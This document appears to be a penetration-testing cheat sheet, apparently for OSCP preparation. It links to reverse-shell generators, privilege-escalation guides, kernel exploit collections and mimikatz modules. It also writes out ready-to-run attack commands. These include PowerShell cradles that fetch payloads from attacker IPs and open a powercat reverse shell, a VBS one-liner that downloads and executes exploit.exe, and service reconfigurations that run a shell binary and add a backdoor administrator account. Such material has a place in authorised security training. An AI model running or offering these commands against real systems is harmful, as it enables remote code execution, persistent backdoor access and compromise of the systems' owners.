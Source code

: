 
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## mimikatz

https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa

https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#open-shares

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

## Reconfigure Service

Reconfigure Service:

```
sc config ServiceName depend= "" start= demand binpath= "C:\Inetpub\wwwroot\shell443.exe" obj= ".\LocalSystem" password= ""
sc config ServiceName binPath= "cmd /c net user haxxor haxxor123 /add && net localgroup Administrators haxxor /add && net localgroup 'Remote Desktop Users' haxxor /add"
```


